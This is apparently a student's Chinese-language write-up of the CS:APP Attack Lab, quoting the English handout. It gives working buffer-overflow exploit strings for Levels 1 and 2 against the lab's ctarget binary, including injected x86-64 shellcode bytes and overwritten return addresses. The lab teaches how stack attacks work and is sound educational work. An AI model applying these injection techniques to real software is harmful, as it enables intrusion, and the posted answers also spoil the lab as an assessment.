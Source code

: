 >This assignment involves generating a total of five attacks on two programs having different security vulnerabilities. Outcomes you will gain from this lab include:
>
>- You will learn different ways that attackers can exploit security vulnerabilities when programs do not safeguard themselves well enough against buffer overflows.
>- Through this, you will get a better understanding of how to write programs that are more secure, as well as some of the features provided by compilers and operating systems to make programs less vulnerable.
>- You will gain a deeper understanding of the stack and parameter-passing mechanisms of x86-64 machine code.
>- You will gain a deeper understanding of how x86-64 instructions are encoded.
>- You will gain more experience with debugging tools such as GDB and OBJDUMP.
>
>**Note**: In this lab, you will gain firsthand experience with methods used to exploit security weaknesses in operating systems and network servers. Our purpose is to help you learn about the runtime operation of programs and to understand the nature of these security weaknesses so that you can avoid them when you write system code. We do not condone the use of any other form of attack to gain unauthorized access to any system resources.
>
>You will want to study Sections 3.10.3 and 3.10.4 of the CS:APP3e book as reference material for this lab.

该lab要求我们利用栈溢出漏洞，实现攻击程序的功能。

规则如下：
>Here is a summary of some important rules regarding valid solutions for this lab. These points will not make much sense when you read this document for the first time. They are presented here as a central reference of rules once you get started.
>- You must do the assignment on a machine that is similar to the one that generated your targets.
>- Your solutions may not use attacks to circumvent the validation code in the programs. Specifically,
>any address you incorporate into an attack string for use by a ret instruction should be to one of the
>following destinations:
>   - The addresses for functions touch1, touch2, or touch3.
>   - The address of your injected code
>   - The address of one of your gadgets from the gadget farm.
>- You may only construct gadgets from file rtarget with addresses ranging between those for functions start_farm and end_farm.

当我们在进行代码注入攻击时只可以让程序跳转到touch1、touch2、touch3、gadget farm(farm.c)中的gadget或者我们注入的代码中,不可以让程序跳过检查逻辑。

当我们在进行ROP攻击时，只可以使用rtarget中提供的gadget(包含在farm.c中)。

# 辅助工具hex2raw说明
本次lab提供了一个辅助工具hex2raw，该工具允许我们输入16进制字节码，生成一个二进制文件，该二进制文件的内容就是输入的16进制字节码。

该工具要求输入的16进制字节码必须是以空格分隔的，每个字节码必须是两个16进制字符组成的。

同时该工具允许使用类C语言的注释，即以/\*开头，以\*/结尾的内容会被忽略。请保证注释的开始和结束是成对出现的。

该工具输出的字符如果进入命令行，很有可能会因为种种原因无法正常读取。所以我们可以选择先将输出结果暂存到一个文件中，然后再将该文件作为输入文件。

例如level1可以使用如下命令检查是否正确：
```bash
./hex2raw -i inputFileName > tempFileName
./ctarget -q -i tempFileName
```

# 如何生成二进制指令
在lab说明文档的附加B部分，提供了一个生成二进制指令的方法。

我们可以使用gcc编译器，将一个C语言文件编译成二进制文件，然后使用objdump工具将二进制文件转换成16进制字节码。

例如我们有一个编写好的汇编代码example.s。
```asm
# Example of hand-generated assembly code
    pushq $0xabcdef     # Push value onto stack
    addq $17,%rax       # Add 17 to %rax
    movl %eax,%edx      # Copy lower 32 bits to %edx
```

我们可以使用gcc编译器将其编译成二进制文件。
```bash
gcc -c example.s
```

然后我们可以使用objdump工具将二进制文件转换成16进制字节码。
```bash
objdump -d example.o > example.d
```

再通过hex2raw工具即可将16进制字节码转换成二进制文件。


# Part1: Code Injection Attacks
>For the first three phases, your exploit strings will attack CTARGET. This program is set up in a way that
the stack positions will be consistent from one run to the next and so that data on the stack can be treated as
executable code. These features make the program vulnerable to attacks where the exploit strings contain
the byte encodings of executable code.

ctarget程序没有开启栈随机化，所以每次运行时栈的位置都是固定的，而且程序允许我们将栈上的数据当作可执行代码来执行，这使得我们可以将我们的攻击代码注入到栈上。

## 1.1: Level 1
>Your task is to get CTARGET to execute the code for touch1 when getbuf executes its return statement,
rather than returning to test. Note that your exploit string may also corrupt parts of the stack not directly
related to this stage, but this will not cause a problem, since touch1 causes the program to exit directly.

我们的目标是输入一个字符串让getbuf函数执行完后，跳转到touch1函数，而不是返回到test函数。

这题不需要我们注入代码，只需要让程序跳转到touch1函数即可。

简单来说就是通过栈溢出，覆盖掉返回地址，让程序跳转到touch1函数。

我们可以通过gdb调试程序，找到touch1函数的地址，然后构造一个字符串，让程序跳转到touch1函数即可。

通过GDB查看得到touch1函数的地址为0x4017c0。

同时我们需要知道getbuf函数的栈帧大小，这样我们才能知道我们需要填充多少字节才能覆盖到返回地址。通过GDB查看得到getbuf函数的栈帧大小为0x28。即40个字节。

最后要注意的是，我们需要将touch1函数的地址转换为小端字节序，因为x86-64是小端字节序。

最后的输入文件为：
```
00 00 00 00 00 00 00 00 00 00 /* 10字节的填充字符 */
00 00 00 00 00 00 00 00 00 00 /* 10字节的填充字符 */
00 00 00 00 00 00 00 00 00 00 /* 10字节的填充字符 */
00 00 00 00 00 00 00 00 00 00 /* 10字节的填充字符 */ 
c0 17 40                      /* touch1函数的地址(小端序) */
```

## 1.2: Level 2
>Your task is to get CTARGET to execute the code for touch2 rather than returning to test. In this case,
however, you must make it appear to touch2 as if you have passed your cookie as its argument.

这次我们不仅要让程序跳转到touch2函数，还要让touch2函数以为我们传递了一个cookie给它。

根据文档中的提示，输入的cookie通过寄存器%rdi传递给touch2函数。

因此我们在跳转到touch2函数之前，需要将cookie的值放到%rdi寄存器中。

我们可以把这个过程整理成一个函数，然后通过溢出覆盖返回地址。

在函数中我们修改%rdi寄存器的值，然后跳转到touch2函数。

我们需要再40个字节内完成该函数的编写。提示中说不要用call和jmp，因为这两个指令的代码较难构造，因此我们可以使用push和ret指令来实现。

汇编代码如下：
```asm
movq $0x59b997fa,%rdi   #将cookie的值放到%rdi寄存器中
pushq $0x4017ec         #将touch2的函数地址压栈
ret                     # 跳转到touch2函数
```

得到的16进制字节码为：
```
48 c7 c7 fa 97 b9 59 68 ec 17 40 00 c3
```

我们选择将其起始地址置于原始栈顶的位置

通过GDB查看得到getbuf的栈顶位置为0x5561dc78，所以我们最后要通过溢出覆盖返回地址为0x5561dc78。

在此之前先将字节填充至40字节。

最后要注入的字符串为：
```
48 c7 c7 fa 97 b9 59        /* mov    $0x59b997fa,%rdi */
68 ec 17 40 00              /* pushq  $0x4017ec */
c3                          /* retq   */
00 00 00 00 00 00 00 00 00  /* 再填充27个字节 */
00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00
78 dc 61 55                 /* 0x5561dc78的小端序*/
```